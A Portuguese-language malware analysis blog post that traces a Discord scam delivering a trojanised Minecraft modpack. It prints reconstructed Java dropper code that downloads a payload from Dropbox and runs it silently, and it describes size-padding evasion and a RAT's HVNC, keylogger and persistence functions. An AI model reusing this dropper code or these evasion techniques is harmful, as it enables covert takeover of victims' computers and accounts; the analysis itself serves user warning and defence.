





No dia 13 de novembro, por volta das 17h30, um amigo meu recebeu uma mensagem no Discord: uma "isabela", que após um pouquinho de conversa, chamou ele pra jogar num servidor de Minecraft, com um modpack da CurseForge "obrigatório" pra entrar. 

Resolvi abrir o modpack e ver o que tinha dentro, sem executar nada por que nesse ponto já tinha certeza absoluta de que era um golpe. Esse post documenta o processo pra fazer a decriptografia de mods .jar, análise estática e também meus achados na VPS do orquestrador do golpe, e um pouquinho sobre Malware como serviço (MaaS)

***

## A cadeia de ataque:

Antes dos detalhes, esse aqui é o caminho completo, do convite no Discord até o atacante com acesso ao PC. Tudo em vermelho acontece sem a vítima ver nada:



## O convite: um modpack e um servidor

O golpe é simples: alguém te chama pra jogar, manda o IP de um servidor e diz que você precisa instalar um modpack específico pra conseguir entrar.



Repara na ordem: primeiro ela confirma que ele tem a CurseForge, depois pergunta se ele sabe importar um `.zip`, e só *depois* de mandar o arquivo é que vem o IP. O modpack se chama **WholSphere**, é pra Fabric 1.21.1, e o servidor na porta 25565 é só cenário: como vou mostrar, o malware não depende dele pra nada. O objetivo é só fazer você abrir o jogo com aquele modpack instalado uma única vez.



## Abrindo o modpack sem executar nada

Um modpack da CurseForge nada mais é que um zip com um `manifest.json` e uma pasta de arquivos extras. Antes de qualquer coisa, copiei tudo pra uma pasta isolada e listei o conteúdo, sem extrair nem abrir nada em nenhum launcher:



Só aqui já dá pra ver muita coisa:

- Quase tudo tem a mesma data, **22 de outubro**. Menos a pasta `overrides/mods/` e o `WholsSphereDungeonV15.jar`, que entraram no zip no dia **8 de novembro**, mais de duas semanas depois. Cheiro forte de alguém pegando um modpack pronto e enfiando um arquivo a mais.
- O `WholsSphereDungeonV15.jar` tem **exatamente 23.000.000 bytes**. Número redondo demais pra ser coincidência.
- O zip que chegou no Discord tinha 27,5 MB, mas o conteúdo descompactado passa de 52 MB. *Guarda essa informação.*

### manifest.json

O `manifest.json` é a "receita" do modpack: qual versão do Minecraft, qual mod loader e quais mods baixar.

```json
{
  "minecraft": {
    "version": "1.21.1",
    "modLoaders": [{ "id": "fabric-0.19.5", "primary": true }]
  },
  "manifestType": "minecraftModpack",
  "name": "WholSphere",
  "version": "",
  "author": "",
  "overrides": "overrides",
  "files": [
    { "projectID": 348521, "fileID": 5729125, "required": true },
    { "projectID": 1281474, "fileID": 6622574, "required": true },
    { "projectID": 241160, "fileID": 6204047, "required": true },
    ...
  ]
}
```

São 30 mods na lista, e todos são referenciados por `projectID` e `fileID`. Ou seja: o app da CurseForge baixa cada um deles direto da plataforma, e eles são os mods legítimos de sempre: Fabric API, Cloth Config, AppleSkin, Xaero's Minimap, Mouse Tweaks, Entity Culling e por aí vai. Nenhum problema aqui.

O problema é o que **não** está no manifest: os dois `.jar` soltos dentro de `overrides/mods/`, o `WholSphere-Dimensions 1.21.1.jar` e o `WholsSphereDungeonV15.jar`. Eles não passam pela CurseForge, vêm direto dentro do zip.

> **⚠️ Aviso: tome MUITO cuidado quando um estranho te manda um .zip de modpack pra importar na CurseForge**
>
> Baixar mods e modpacks direto pela CurseForge é, em geral, seguro. O perigo é outro: alguém te mandar um `.zip` pra você importar no app. Esses modpacks parecem completamente reais: o app aceita o arquivo sem reclamar, a lista de mods é baixada da própria plataforma e tudo funciona como qualquer outro modpack. O problema está nos **overrides**.
>
> A pasta `overrides/` serve pra o autor do modpack incluir arquivos extras (configs, resource packs, scripts) que são copiados por cima da instalação. Só que nada impede de colocar um `.jar` ali dentro de `overrides/mods/`. Esse arquivo não é baixado da CurseForge pelo `projectID` como os outros mods: ele vem direto dentro do zip, e vai parar na pasta de mods como se fosse mais um.
>
> Ou seja, dá pra ter 30 mods legítimos e um com código malicioso injetado, com nome e cara de mod normal, escondido no meio. **Esse é o vetor de ataque.** Se um estranho te mandou um `.zip` de modpack, desconfie. E se for rodar mesmo assim, abra o zip antes e confira o que tem em `overrides/mods/`.

## Um mod com uma classe só e 22 MB de zeros

O `WholsSphereDungeonV15.jar` tinha 22 MB, mas só uma classe Java. O resto era um arquivo chamado, sem nenhuma vergonha, `unused_padding.bin`.



O `xxd -a` colapsa linhas repetidas num `*`, então o arquivo inteiro cabe em três linhas: são 22.993.483 bytes de `00`, e o tamanho foi escolhido certinho pra o `.jar` fechar em 23.000.000 bytes. O código de verdade é o `mc.class`, com menos de 9 KB.

### fabric.mod.json

Todo mod Fabric tem um `fabric.mod.json` dizendo quem ele é e qual classe o loader deve chamar quando o jogo abre:

```json
{
  "schemaVersion": 1,
  "id": "minecraft-mod-pack",
  "version": "1.0.0",
  "name": "Minecraft Mod Pack",
  "description": "A simple client-side Fabric mod that logs on load",
  "authors": ["Fabric Team"],
  "license": "All-Rights-Reserved",
  "environment": "client",
  "entrypoints": {
    "main": ["com.example.mod.mc"]
  },
  "depends": {
    "fabricloader": ">=0.16.5",
    "minecraft": "1.21.1"
  }
}
```

"Um mod simples que faz um log ao carregar", assinado pela "Fabric Team" kkkk. O pacote `com.example.mod` é literalmente o nome que vem no template de exemplo do Fabric, ninguém se deu ao trabalho nem de renomear. O que importa é o `entrypoints.main`: assim que o Minecraft abre, o Fabric Loader instancia `com.example.mod.mc` e chama o `onInitialize()` dela.

### Pra que servem os zeros?

O detalhe mais interessante tá na forma como o padding foi guardado. Dentro do `.jar`, o `unused_padding.bin` está como **Stored**, ou seja, sem compressão nenhuma, então o arquivo no disco tem de fato 23 MB. Mas dentro do zip do modpack, que é compactado de novo, aquele `.jar` inteiro vira **30 KB**: zeros comprimem praticamente a nada.

Então, pro golpista, o padding não custa nada no download, mas o arquivo que chega no seu PC é grande. E muito antivírus, sandbox e scanner automático simplesmente pula arquivos acima de um certo tamanho pra não perder tempo. É um truque barato pra passar por baixo dessas verificações.

## Decompilando com o Vineflower

Pra ler o código, usei o **Vineflower**, um decompilador Java que transforma o bytecode do `.jar` de volta em algo próximo do código-fonte. O começo é bem inocente:

```java
public class mc implements ModInitializer {
   public void onInitialize() {
      new Thread(this::X).start();
   }
   // ...
}
```

O `onInitialize()` só abre uma thread nova e chama `X()`. Rodar numa thread separada é proposital: o jogo continua carregando normalmente e você não percebe nenhum travamento.

O problema é que o `X()`, que é onde tudo acontece, não decompilou. O Vineflower desistiu com um `parsing failure!` e só cuspiu o bytecode cru. Parte dele:

```text
000: getstatic com/example/mod/mc.b I
003: istore 1
004: sipush 22185
007: sipush -10381
00a: invokestatic com/example/mod/mc.a (II)Ljava/lang/String;
00d: invokestatic java/lang/System.getenv (Ljava/lang/String;)Ljava/lang/String;
...
018: sipush 22178
01b: sipush 8427
01e: invokestatic com/example/mod/mc.a (II)Ljava/lang/String;
022: invokestatic java/nio/file/Paths.get (...)
```

Dá pra ver a estrutura (`System.getenv`, `Paths.get`, `Files.createDirectories`, `ProcessBuilder`...), mas todo texto é trocado por uma chamada `mc.a(número, número)`. Isso é criptografia de strings, e volto nela já já.

Os métodos auxiliares decompilaram melhor. O `N()` é a rotina de download, e depois de limpar fica assim:

```java
private static void N(String url, String destino) throws IOException {
    try (InputStream in = URI.create(url).toURL().openStream();
         FileOutputStream out = new FileOutputStream(destino)) {
        byte[] buf = new byte[8192];
        int n;
        while ((n = in.read(buf)) != -1) {
            out.write(buf, 0, n);
        }
    }
}
```

Uma cópia de um stream HTTP pra um arquivo, em blocos de 8 KB. Na saída original do decompilador isso tá cheio de `if (var3 != 0) break label81;` e blocos `try/catch` que só relançam a exceção. O `var3` vem de um campo estático que é sempre 0, então esses desvios nunca acontecem: é lixo que o ofuscador coloca só pra deixar o código mais chato de ler. O `M()` é parecido: um `ZipInputStream` que extrai um zip pra uma pasta.

No total, a classe `mc` tem só isso aqui:

| Método | O que faz |
| --- | --- |
| `onInitialize()` | Ponto de entrada que o Fabric chama quando o jogo abre. Só cria uma thread e chama `X()` |
| `X()` | O "cérebro": monta os caminhos, chama o download, a extração e no fim executa o RAT. Não decompilou |
| `N(url, destino)` | Baixa um arquivo por HTTP, em blocos de 8 KB |
| `M(zip, pasta)` | Abre o zip com `ZipInputStream` e cria as pastas de cada entrada |
| `H(zip, caminho)` | Grava no disco o conteúdo de cada arquivo do zip (chamado pelo `M()`) |
| `a(x, y)` | Decripta uma string. Todo texto da classe passa por aqui |
| `<clinit>` | Inicializador estático: monta a tabela de strings criptografadas quando a classe carrega |

## Quebrando a criptografia das strings

Todas as strings do mod (URL, caminhos, comandos) estavam criptografadas no estilo do Zelix KlassMaster. Sem elas não dava pra saber de onde vinha o segundo estágio.

Eu não queria carregar a classe maliciosa de jeito nenhum, nem dentro de uma JVM "controlada". Então copiei só a rotina de decriptação pra um programa separado e depois reescrevi em Python, lendo o `.class` como bytes puros e tirando dele só o que precisava.

A criptografia tem duas camadas:

1. **A tabela de strings.** No inicializador estático da classe tem dois textos embaralhados no constant pool. Cada um é uma sequência de pedaços no formato `[tamanho][bytes]`, e cada byte passa por um XOR com uma chave fixa de 7 bytes que fica no próprio código. Desfazendo isso saem 12 strings, mas ainda ilegíveis.
2. **A chamada `a(x, y)`.** O primeiro argumento, depois de um XOR com uma constante, vira o índice da string na tabela. O segundo argumento vira duas chaves de um byte (uma pros caracteres pares e outra pros ímpares), e cada caractere decriptado realimenta a chave do próximo com uma rotação de bits.

Seguindo uma chamada de verdade, a que gera a URL do Dropbox:



Em Python, a segunda camada fica assim:

```python
def a(x, y):
    s = list(tabela[(x ^ 22187) & 0xFFFF])
    v4 = lookup.get(s[0] & 0xFF, padrao)
    k_par   = ((y & 0xFF) - v4) % 256
    k_impar = (((y & 0xFFFF) >> 8) - v4) % 256
    for j in range(len(s)):
        if j % 2 == 0:
            s[j] ^= k_par
            k_par = ((k_par >> 3 | k_par << 5) ^ s[j]) & 0xFF
        else:
            s[j] ^= k_impar
            k_impar = ((k_impar >> 3 | k_impar << 5) ^ s[j]) & 0xFF
    return ''.join(map(chr, s))
```

Passando cada par `(x, y)` que aparece no bytecode, saem as 12 strings:

| Chamada | String |
| --- | --- |
| `a(22185, -10381)` | `LOCALAPPDATA` |
| `a(22178, 8427)` | `java` |
| `a(22190, 27965)` | `https://www.dropbox.com/scl/fi/…/e95132c212fbe17b.zip?…&dl=1` |
| `a(22179, 4542)` | `jre.zip` |
| `a(22177, 29350)` | `java` |
| `a(22184, 24985)` | `bin` |
| `a(22188, -1432)` | `javaw.exe` |
| `a(22187, -8188)` | `app.jar` |
| `a(22191, 21281)` | `cmd` |
| `a(22189, -6585)` | `/c` |
| `a(22186, 29644)` | `start` |
| `a(22176, 10367)` | `-jar` |

(O link do Dropbox está cortado de propósito.)

E lá estava ele, todo arrumadinho no meio das strings:



## O que o dropper faz

Com as strings no lugar, deu pra reconstruir na mão o `X()` que o decompilador não conseguiu.

### X(), reconstruído

```java
private void X() {
    Path pasta = Paths.get(System.getenv("LOCALAPPDATA"), "java");
    String url = "https://www.dropbox.com/scl/fi/…/e95132c212fbe17b.zip?…&dl=1";
    Path zip = pasta.resolve("jre.zip");

    Files.createDirectories(pasta);
    N(url, zip.toString());              // baixa o zip do Dropbox
    M(zip.toString(), pasta.toString()); // descompacta em %LOCALAPPDATA%\java
    Files.deleteIfExists(zip);           // apaga o zip

    Path javaw = pasta.resolve("java").resolve("bin").resolve("javaw.exe");
    Path jar   = pasta.resolve("app.jar");

    if (Files.exists(javaw) && Files.exists(jar)) {
        new ProcessBuilder("cmd", "/c", "start", "",
                javaw.toString(), "-jar", jar.toString()).start();
    }
}
```

É um **dropper** clássico: ele não faz nada de malicioso sozinho, só baixa e executa o malware de verdade. Algumas coisas que valem destacar:

- **Só funciona no Windows.** No Linux a variável `LOCALAPPDATA` não existe, o `getenv` volta `null` e a coisa toda morre logo na primeira linha.
- **Ele traz o próprio Java.** O zip inclui um runtime Java completo, então o malware não depende do Java do Minecraft. E como ele é iniciado com `cmd /c start`, vira um processo independente: você fecha o jogo e o `app.jar` continua rodando.
- **`javaw.exe`, não `java.exe`.** O `javaw` roda sem abrir janela de console. Não aparece nada na tela.
- **O segundo estágio fica no Dropbox**, não num servidor do atacante. Um download do `dropbox.com` passa muito mais despercebido do que um IP aleatório.

## Stage 2: um RAT em Java

O zip do Dropbox trazia um runtime Java completo e um `app.jar` de 14,5 MB, esse sim o malware de verdade.

Mais precisamente: 380 arquivos e uns 146 MB descompactados. Quase tudo é um **Eclipse Temurin 17.0.21** normal, na pasta `java/`. O que importa é o `app.jar` que fica do lado.

Dentro dele tem bastante biblioteca conhecida, embutida sem ofuscação. Só pela lista já dá pra ter uma ideia do que vem pela frente:

| Biblioteca | Pra que serve | Pra que o RAT usa |
| --- | --- | --- |
| **JNA** | Chamar funções de DLLs nativas direto do Java, sem escrever C | Toda a parte "Windows": HVNC, keylogger, prints, webcam, registro |
| **nv-websocket-client** | Cliente WebSocket | O canal com o painel do atacante (C2) |
| **okhttp** | Cliente HTTP | Requisições HTTP com JSON, fora do WebSocket |
| **Gson** | Ler e escrever JSON | Formato das mensagens trocadas com o painel |
| **sqlite-jdbc** | Ler bancos SQLite | Chrome, Edge e Firefox guardam senhas, cookies e histórico em SQLite. Clássico de stealer, mas não achei chamada direta no código ofuscado |
| **Kotlin** | Runtime da linguagem Kotlin | Provavelmente só dependência do okhttp, que é escrito em Kotlin |

E tem o código do malware em si: **103 classes** dentro de um pacote chamado `lIiiIiIlill`, com nomes de classe como `IIIilIIiiIIi` e `IliIlllilIi`. Só `l`, `I` e `i`, que na maioria das fontes são quase iguais. A ofuscação aqui é bem mais pesada que a do dropper:

- **Control-flow flattening**: o código de cada método vira um `switch` gigante dentro de um loop, e a ordem real das instruções fica escondida numa variável de estado.
- **Chamadas escondidas atrás de `invokedynamic`**: em vez de chamar `StringBuilder.append()`, o código chama um "resolvedor" que só descobre em tempo de execução qual método chamar.
- **Tabela de strings por classe**, criptografada com uma chave `long` diferente em cada uma.

Das 103 classes, o Vineflower conseguiu decompilar 41. As outras estouraram o tempo limite de tão embaralhadas.

## As interfaces JNA entregam tudo

Pra chamar a API do Windows pelo Java, o malware usa a **JNA**, e aí está a falha da ofuscação: os nomes dos métodos precisam bater com os nomes reais da Win32, então não podem ser ofuscados.

Quando você declara uma interface JNA, a biblioteca procura na DLL do Windows uma função com exatamente o mesmo nome do método. Se o ofuscador renomear `GetAsyncKeyState` pra `iIlIl`, a chamada quebra. Então a classe tem nome de lixo, mas o conteúdo fica em texto puro:

```java
public interface IlIllllIll extends Library {
   int ToUnicode(int var1, int var2, byte[] var3, char[] var4, int var5, int var6);
   Pointer GetForegroundWindow();
   short GetAsyncKeyState(int var1);
   int GetWindowThreadProcessId(Pointer var1, Pointer var2);
   int GetWindowTextW(Pointer var1, char[] var2, int var3);
   Pointer GetKeyboardLayout(int var1);
}
```

Isso aí é um keylogger, sem tirar nem pôr: lê o estado de cada tecla, traduz pro caractere certo no layout do teclado da vítima e anota em qual janela ela estava digitando. Juntando todas as interfaces:

| Capacidade | Evidência |
| --- | --- |
| **HVNC** (área de trabalho oculta) | `CreateDesktopW`, `OpenDesktopW`, `SetThreadDesktop`, `PrintWindow`, `CreateProcessW`, `PostMessageW` com `WM_LBUTTONDOWN`, `WM_KEYDOWN`, `WM_CHAR` |
| **Keylogger** | `GetAsyncKeyState`, `ToUnicodeEx`, `GetKeyboardLayout`, `GetForegroundWindow` + `GetWindowTextW` |
| **Captura de tela** | `BitBlt`, `CreateCompatibleDC`, `GetDIBits` |
| **Webcam** | `capCreateCaptureWindowW` (avicap32) |
| **Persistência** | `RegCreateKeyExW`, `RegSetValueExW` (provavelmente a chave `Run`, mas o nome da chave é criptografado) |
| **Controle de processos** | `OpenProcess`, `TerminateProcess` |
| **C2** | cliente WebSocket, um `X509TrustManager` que aceita qualquer certificado, criptografia AES e um heartbeat periódico |

### As seis interfaces

No total são seis interfaces JNA, com 65 funções da API do Windows. O nome da DLL de cada uma fica criptografado, mas as funções só existem numa DLL específica, então dá pra saber de onde vem cada uma:

| Interface | DLL | Funções | Módulo |
| --- | --- | --- | --- |
| `iIiIlIliIl` | `user32.dll` | 35, entre elas `CreateDesktopW`, `SetThreadDesktop`, `PrintWindow`, `PostMessageW`, `WindowFromPoint`, `SetCursorPos` | HVNC |
| `IlIllllIll` | `user32.dll` | 10: `GetAsyncKeyState`, `GetKeyboardState`, `ToUnicode`, `ToUnicodeEx`, `MapVirtualKeyW`, `GetKeyboardLayout`, `GetForegroundWindow`, `GetWindowTextW`... | Keylogger |
| `iIlllIllll` | `gdi32.dll` | 9: `BitBlt`, `PatBlt`, `CreateCompatibleDC`, `CreateCompatibleBitmap`, `SelectObject`, `GetDIBits`... | Captura de tela |
| `IllIllllIl` | `kernel32.dll` | 6: `CreateProcessW`, `OpenProcess`, `TerminateProcess`, `ExpandEnvironmentStringsW`, `GetCurrentThreadId`, `CloseHandle` | Processos |
| `IiIiliIiiiIi` | `advapi32.dll` | 4: `RegCreateKeyExW`, `RegSetValueExW`, `RegDeleteValueW`, `RegCloseKey` | Persistência |
| `iiIIlIIlIl` | `avicap32.dll` | 1: `capCreateCaptureWindowW` | Webcam |

### Função por função

Pra quem nunca mexeu com a API do Windows, o que as funções mais importantes fazem e pra que um RAT quer cada uma:

#### HVNC

| Função | O que faz no Windows | Pra que o RAT usa |
| --- | --- | --- |
| `CreateDesktopW` | Cria um novo *desktop*, uma área de trabalho separada dentro da mesma sessão | Criar a área de trabalho invisível |
| `OpenDesktopW` | Abre um desktop que já existe, pelo nome | Reabrir o desktop oculto se ele já foi criado |
| `SetThreadDesktop` | Muda em qual desktop a thread atual "mora" | Fazer a thread do RAT trabalhar dentro do desktop oculto |
| `CreateProcessW` | Cria um processo, e dá pra escolher em qual desktop ele abre | Abrir navegador, Explorer etc. no desktop oculto |
| `EnumDesktopWindows` | Lista as janelas de um desktop | Saber o que está aberto lá dentro |
| `PrintWindow` | Desenha uma janela num bitmap, mesmo se ela não estiver na tela | "Fotografar" as janelas que ninguém está vendo |
| `WindowFromPoint`, `ScreenToClient` | Descobre qual janela está num ponto e converte coordenadas | Traduzir o clique do atacante pra janela certa |
| `PostMessageW`, `SendMessageW` | Manda mensagens pra uma janela (`WM_LBUTTONDOWN`, `WM_KEYDOWN`, `WM_CHAR`...) | Injetar cliques e teclas |
| `SetWindowPos`, `MoveWindow`, `SetForegroundWindow` | Move, redimensiona e traz janelas pra frente | Organizar as janelas no desktop oculto |

#### Keylogger

| Função | O que faz no Windows | Pra que o RAT usa |
| --- | --- | --- |
| `GetAsyncKeyState` | Diz se uma tecla está apertada agora | Ficar perguntando, tecla por tecla, o que foi digitado |
| `GetKeyboardState`, `MapVirtualKeyW` | Estado de todas as teclas (Shift, Caps Lock...) e tradução de códigos | Saber se era `a` ou `A` |
| `ToUnicodeEx`, `GetKeyboardLayout` | Converte uma tecla no caractere certo pro layout do teclado | Funcionar em ABNT2, US, o que for |
| `GetForegroundWindow`, `GetWindowTextW` | Janela em foco e o título dela | Anotar onde a vítima digitou, tipo "Banco X - Google Chrome" |

#### Tela, webcam, persistência e processos

| Função | O que faz no Windows | Pra que o RAT usa |
| --- | --- | --- |
| `CreateCompatibleDC`, `CreateCompatibleBitmap`, `SelectObject` | Preparam um bitmap na memória | Ter onde colocar o print |
| `BitBlt` | Copia pixels de um lugar pro outro, por exemplo da tela pra memória | Tirar print da tela de verdade |
| `GetDIBits` | Extrai os pixels crus de um bitmap | Transformar o print em imagem pra mandar pro painel |
| `capCreateCaptureWindowW` | Cria uma janela de captura de vídeo (API antiga do Video for Windows) | Ligar a webcam |
| `RegCreateKeyExW`, `RegSetValueExW`, `RegDeleteValueW` | Criam, gravam e apagam valores no registro | Provavelmente se colocar na chave `Run` pra abrir junto com o Windows, e se remover quando mandarem |
| `OpenProcess`, `TerminateProcess` | Abrem e matam processos | Fechar programas, por exemplo o navegador, que trava o perfil enquanto está aberto |
| `ExpandEnvironmentStringsW` | Troca `%VARIAVEIS%` pelo valor real | Montar caminhos tipo `%LOCALAPPDATA%\...` |

### Por que HVNC é tão ruim

Um *stealer* comum rouba arquivos: copia os cookies e as senhas salvas no navegador e manda pro atacante. Isso já é ruim, mas tem limite: cookie expira, alguns sites amarram a sessão ao dispositivo, e senha salva não passa de autenticação em dois fatores.

**HVNC** (*Hidden Virtual Network Computing*) é outra coisa. O malware cria uma **segunda área de trabalho do Windows, invisível**, com `CreateDesktopW`. Nela ele abre o seu navegador, com o seu perfil, os seus cookies e as suas sessões já logadas. Depois tira "prints" dessa área com `PrintWindow` e manda pro atacante, e recebe de volta cliques e teclas que injeta com `PostMessageW`.



Na prática o atacante usa o seu PC, logado como você, enquanto você joga Minecraft na mesma máquina sem ver nada. Pro banco, pro Discord ou pra Steam, o acesso vem do seu IP, do seu navegador, do seu dispositivo de sempre. Não tem alerta de "login em um novo dispositivo", porque não é um novo dispositivo.



## Decodificando as chamadas escondidas

As chamadas pra classes Java normais ficavam escondidas atrás de `invokedynamic`, com os nomes codificados por um XOR de um byte por classe. Um XOR de um byte só tem 256 chaves possíveis, então dava pra testar todas.

Cada ponto de chamada escondido carrega um punhado de literais Base64: o nome da classe dona do método, o descritor, o nome do método. Cada literal é decodificado de Base64 e depois passa por um XOR com uma chave de um byte somada à posição do caractere.

Escrevi um script que pega **todos** os literais Base64 de todas as classes, testa as 256 chaves em cada um e dá uma pontuação pra cada resultado: quanto mais parecido com um identificador Java (letras, `.`, `/`, `;`, `(`), maior a nota. Fica a melhor de cada literal, se passar de um limite. Saíram umas **54 mil strings**, com algum ruído no meio.

Os nomes de classe e os descritores saem de forma bem confiável, por que são longos e têm uma estrutura muito específica, tipo `com.neovisionaries.ws.client.WebSocketFactory` ou `(Ljava/lang/String;)Ljava/lang/StringBuilder;`. Já os nomes curtos de método, com 5 ou 6 letras, muitas vezes têm mais de uma chave que gera algo "plausível", e aí não dá pra confiar.

Mas pra esse caso nem precisava do nome do método: saber qual classe Java cada classe ofuscada usa já monta o mapa. Rodando o script classe por classe, as que mais entregam o jogo:

| Classe ofuscada | Classes Java que ela usa | Papel provável |
| --- | --- | --- |
| `IliIlllilIi` (a `Main-Class` do jar) | `FileChannel` | Ponto de entrada. Usa um lock de arquivo pra garantir que só uma cópia do RAT roda por vez |
| `lliIliliIl` | `WebSocketFactory`, `InetAddress`, `ProcessHandle`, `Runtime` | Conexão com o painel, e identificação da máquina (nome do PC, processos) |
| `llIIlilIIl` | `JsonParser`, `JsonObject`, `ScheduledExecutorService` | Lê os comandos que chegam em JSON e manda o heartbeat de tempos em tempos |
| `IIIIllIIIl` | `JsonParser`, `JsonObject`, `JsonPrimitive` | Monta e lê as mensagens do protocolo |
| `IilliliilIIi` | `Function` (JNA), `Toolkit`, `ProcessBuilder`, `Runtime`, `NetworkInterface` | Coleta informação do sistema (MAC, tela) e executa comandos |
| `IliIlllilIi` (outra, em outro pacote) | `Request.Builder` (okhttp), `MediaType`, `JsonObject` | Requisições HTTP com JSON, por fora do WebSocket |
